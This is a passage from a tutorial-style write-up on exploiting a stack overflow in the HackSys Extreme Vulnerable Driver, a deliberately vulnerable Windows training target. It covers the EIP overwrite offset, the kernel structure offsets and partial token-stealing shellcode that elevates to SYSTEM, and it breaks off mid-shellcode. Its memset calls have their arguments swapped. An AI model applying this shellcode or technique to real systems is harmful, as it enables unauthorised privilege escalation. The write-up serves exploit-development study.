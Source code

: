 
So the first exploit to get the EIP control is to use a buffer with a pattern (pattern.rb is your friend). We discover the EIP is overwritten at 2080 byte. Let's put some B's in the EIP to be sure:

{% highlight bash linenos %}
    char shellcode[4096];

    memset('A', shellcode, 2080);
    memset('B', &shellcode[2080], 2084);
    memset('C', &shellcode[4164], 3000);
{% endhighlight %}


![TEXTO HOVER](/assets/kernel/crashB.png)

Exploit launched and we can find eip register full of '0x42' followed with lots of '0x43'. 

Now that we have control over the EIP our objective is to elevate privileges to NT AUTHORITY\SYSTEM and the chosen way will be "Token Steal Privilege" also known as "Access Token Manipulation", more information about it [here](https://www.peerlyst.com/posts/windows-kernel-exploitation-elevation-of-privilege-eop-with-token-stealing-chiheb-chebbi).

In Windows all proccesses has an access token that specifies its security context. So we want our shellcode to steal the token from an elevated proccess and copy it into ours (spoiler, will be a shell).

Let's see the [payload](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Exploit/Payloads.c#L63) HackSys suggests. For a huge and very detailed analysis of the shellcode I recommend Connor McGarr [article](https://connormcgarr.github.io/Kernel-Exploitation-1/). Props to him for explaining lots of Windows Internals and WinDBG commands.

As a resumee these are the offsets we need to get to our exploit:

{% highlight bash linenos %}
_KTHREAD offset = 0x124 (from _KPCR)
_EPROCESS offset = 0x50 (from _KTHREAD)
ActiveProcessLink offset = 0x0b8 (from _EPROCESS)
Token offset = 0x0f8 (from EPROCESS)
{% endhighlight %}


So the shellcode is:

{% highlight c linenos %}
    char shellcode [] =
            "\x60"                        // pushad
        "\x31\xc0"                        // xor eax,eax
        "\x64\xa1\x24\x01\x00\x00"        // mov eax,[fs:eax+0x124]
        "\x8b\x40\x50"                    // mov eax,[eax+0x50]
        "\x89\xc1"                        // mov ecx,eax
        "\xba\x04\x00\x00\x00"            // mov edx,0x4
        "\x8b\x80\xb8\x00\x00\x00"        // mov eax,[eax+0xb8]
        "\x2d\xb8\x00\x00\x00"            // sub eax,0xb8
        "\x39\x90\xb4\x00\x00\x00"        // cmp [eax+0xb4],edx
        "\x75\xed"                        // jne 0x1a
        "\x8b\x90\xf8\x00\x00\x00"        // mov edx,[eax+0xf8]